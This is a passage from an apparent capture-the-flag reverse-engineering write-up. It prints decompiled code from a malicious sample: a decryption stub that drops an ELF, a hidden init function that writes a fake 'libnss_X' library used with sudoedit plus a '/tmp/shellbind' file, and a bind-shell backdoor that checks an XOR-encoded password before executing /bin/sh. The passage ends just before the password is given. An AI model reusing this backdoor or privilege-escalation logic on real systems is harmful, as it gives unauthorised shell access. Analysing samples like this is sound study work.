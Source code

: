 ```c
 key[3].m128i_i64[0] = 0LL;  
 key[3].m128i_i64[1] = 0LL;  
 *key = _mm_load_si128((const __m128i *)&xmmword_14F220);  
 key[1] = _mm_load_si128((const __m128i *)&xmmword_14F230);  
 key[2] = _mm_load_si128((const __m128i *)&xmmword_14F240);  
 key[3] = _mm_load_si128((const __m128i *)&xmmword_14F250);  
 v1 = sh_malloc(50784LL, "evalstring.c", 404LL);  
 cryptoshit_again((__int64)key, (__int64)v2, v1, 50784LL, 64LL);  
 while ( 1 ) // jmp $0 rocks :þ  
   ;  
}

```  
We finally see the end of the tunnel, and dump the dropped ELF with gdb after
attaching to the process.

## Final flash

After having dumped the ELF, we open it on IDA. This time, no weird tricks and
IDA shows us the main function directly. The main function is useless because
it just calls "sudoedit" with shitty arguments.

But remember, init functions can be called by `__libc_csu_init`, and it's the
case here. We have a `setup` function, which does this:  
```c

int __fastcall setup(__int64 a1, __mode_t a2)  
{  
 FILE *s; // [rsp+8h] [rbp-8h]  
 FILE *sa; // [rsp+8h] [rbp-8h]

 mkdir("libnss_X", a2);  
 s = fopen("libnss_X/A .so.2", "w");  
 fwrite(&libData, 1uLL, 0x4080uLL, s);  
 fclose(s);  
 sa = fopen("/tmp/shellbind", "w");  
 fwrite(&shellData, 1uLL, 0x4300uLL, sa);  
 return fclose(sa);  
}

```

Luckily for me, I analyzed the "shellbind" binary, and after seening its main
function:

```c

bind(fd, &addr, 0x10u);  
listen(fd, 0);  
v8 = accept(fd, 0LL, 0LL);  
v9 = recv(v8, buf, 0x28uLL, 0);  
if ( buf[v9 - 1] == 10 )  
 buf[v9 - 1] = 0;  
for ( i = 0; i <= 37; ++i )  
 buf[i] ^= 0x59u;  
if ( !strcmp(buf, &unk_2008) )  
{  
 dup2(v8, 2);  
 dup2(v8, 1);  
 dup2(v8, 0);  
 execve("/bin/sh", 0LL, 0LL);  
}

```  
I found the password of the backdoor: